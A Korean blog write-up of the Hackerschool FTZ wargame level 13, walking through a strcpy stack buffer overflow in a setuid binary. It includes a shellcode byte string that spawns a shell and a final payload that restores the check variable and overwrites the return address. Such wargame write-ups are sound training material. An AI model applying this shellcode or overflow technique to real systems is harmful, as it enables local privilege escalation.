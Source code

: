 ```yaml
---
title: BOF/ ftz-level13
tags: ftz
---
```


13번 포스팅 시작합니다.

FTZ란 Free Training Zone의 약자로 hackerschool에서 배포하는 워게임입니다.  
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식입니다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있습니다.  

사용 linux 명령어  
ls - 파일 내역 출력
cat - 파일 내용 확인  
gcc - gcc컴파일러로 컴파일하도록 하는 명령 
vim - text editor  
cp - 파일 또는 디렉터리 복사 명령  
export - 환경변수 등록 명령  
getenv - 환경변수를 모두 보는 명령  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### FTZ Level 13
**ID : level13**  
**PASSWD : have no clue**         

<br />
{% highlight C linenos %}  
#include <stdlib.h>

main(int argc, char *argv[])
{
   long i=0x1234567;
   char buf[1024];

   setreuid( 3094, 3094 );
   if(argc > 1)
   strcpy(buf,argv[1]);

   if(i != 0x1234567) {
   printf(" Warnning: Buffer Overflow !!! \n");
   kill(0,11);
   }
}

{% endhighlight %}  
<br />
level11부터는 attackme라는 파일이 존재하며 hint는 attackme의 소스가 제공된다.  

**소스분석**  
buf에 argv[1]을 strcpy함수로 복사하는 소스로 i가 0x1234567이 아니면 프로그램이 종료된다.    
**strcpy함수는 복사할 데이터의 크기제한이 없기 때문에 입력 데이터가 1024Byte보다 크다면 buffer-overflow가 발생하는 취약점이 있다.**  
level14의 권한으로 set-uid가 설정되어 있다.  
<br />
level11부터는 쉘코드를 사용하여 공격을 한다.  
what is shellcode? - 주로 기계어 코드로 이루어진 소프트웨어 취약점을 공격하기 위한 코드.  

#### level13에서 사용한 쉘코드
**\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80**  
이 쉘코드는 /bin/bash를 실행시키도록 하는 코드이다.  

#### ftz에는 ASLR(메모리 보호기법)이 걸려있다.  
**ASLR은 프로그램을 실행할 때 마다 메모리 주소가 변경되는 메모리 보호기법**  

<br />
![그림1](/assets/ftz/level13/1.PNG)  
권한문제가 없도록 tmp디렉터리에 attackme를 복사하고 attackme의 메모리 구조를 파악하기 위해 gdb를 사용하여 intel방식으로 디스어셈블 한다.   

**어셈블리 분석**  
main+3 line을 보면 sep에 0x418을 더하여 1048Byte의 공간을 할당하는것을 알 수 있다.  
main+54 line을 보면 strcpy함수에 buf를 인자로 전달하기 위한 연산을 수행하고 있음을 알 수 있다.  
따라서 buf의 주소는 ebp-1048.  
main+69 line을 보면 ebp-12 를 0x1234567과 비교연산하고 있음을 알 수 있다.  
소스를 보면 i가 0x1234567과 비교연산 하고 있으므로 ebp-12는 i의 주소이다.  
<br />
ebp는 stack base pointer로 stack의 최하단을 가리키는 포인터로 스택이 소멸되기 전까지 값이 변하지 않는다.  
스택은 높은 주소에서 낮은 주소로 자라는 특성을 가지고 있으므로 ebp-1048이 ebp-12보다 상단에 위치함을 알 수 있다.  

buf와 i사이에 12Byte의 dummy가 있고, 스택에 할당된 총 공간이 1048Byte이므로 메모리 구조는 아래와 같다.  

**참고**  
esp는 스택의 최상단을 가리키는 포인터로 push, pop연산에 따라 4Byte씩 값이 변한다.  
sfp(Saved Frame Pointer)는 이전 함수의 EBP주소를 저장하고 있는 공간이다.  


메모리구조|
---|
buffer(1024Byte)|
dummy(12Byte)|
i(4Byte)|
dummy(8Byte)|
sfp(4Byte)|
ret(4Byte)| 

<br />
![그림2](/assets/ftz/level13/2.PNG)  
쉘코드를 환경변수에 등록하고 환경변수의 주소를 ret에 덮는 방식으로 공격을 시도.  
또한 중간에 i의 값을 적절히 변조하여 프로그램 종료 조건을 우회  

<br />
![그림3](/assets/ftz/level13/3.PNG)  
환경변수의 주소를 얻기 위해 getenv명령을 통해 환경변수의 주소를 출력하는 소스를 작성한다.  

<br />
![그림4](/assets/ftz/level13/4.PNG)  
소스파일을 컴파일하고 실행하여 환경변수의 주소를 얻는다.  

<br />
![그림5](/assets/ftz/level13/5.PNG)  
ret에 접근하기 위해 ret전까지는 아무 값이나 채우고 ret에 환경변수의 주소를 little-endian방식으로 넣는다.  
하지만 i의 값이 0x1234567이 아니면 프로그램이 종료되는 조건이 있으므로 우회하기 위해 i의 위치에 1234567을 값으로 대입하고,  
ret에 접근하여 쉘코드의 주소를 대입한다.  

<br />

#### 페이로드
./attackme \`python -c "print 'A'\*1036 + '\x67\x45\x23\x01' + 'A'*12 + '\x15\xfc\xff\xbf'"`
